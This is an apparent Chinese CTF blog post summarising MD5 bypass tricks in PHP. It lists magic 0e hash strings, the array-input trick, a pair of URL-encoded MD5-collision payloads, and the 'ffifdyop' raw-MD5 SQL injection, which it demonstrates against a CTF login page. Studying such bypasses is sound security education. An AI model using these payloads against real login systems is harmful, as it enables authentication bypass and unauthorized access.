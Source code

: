 ```yaml
---
title: "MD5绕过总结"
subtitle: ""

description: "不难，但常见"
date: 2024-03-02T18:43:43+08:00
draft: false

tags: ["md5"]
categories: ["Bypass"]

---
```


### 常规0e绕过

- QNKCDZO

- 240610708

- s878926199a

- s155964671a

- s214587387a

- s214587387a

> 这些字符串的md5值都是0e开头，e代表科学计数法，这些值在php弱类型比较中`==`判断为相等

### 数组绕过

一个数组无法进行md5加密，可绕过php强类型`===`比较

### 强类型绕过

即md5碰撞

如题

```php
if((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))
```

用一些md5值相等的字符串

> M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
> 
> M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2

### 特殊字符串ffifdyop

该字符串经过md5加密后：276f722736c95d99e921722cf9ed621c  

再转换为字符串即为：`'or'6<乱码>`

用途：

```
select * from admin where password=''or'6<乱码>'
```

相当于

```
select * from admin where password='' or true
```

可以用来实现sql注入

除此之外

`129581926211651571912466741651878684928`也可达到同样的效果

#### 实战

题目链接：http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php

![](/img/MD5绕过总结/1.png)

注释中的源码如下

```php
 $password=$_POST['password'];
    $sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
    $result=mysqli_query($link,$sql);
        if(mysqli_num_rows($result)>0){
            echo 'flag is :'.$flag;
        }
        else{
            echo '密码错误!';
        }
```

提交ffifdyop，使查询语句变成

```
select * from admin where username='admin' and password ='' or '6<乱码>'
```

实现sql注入

![](/img/MD5绕过总结/2.png)
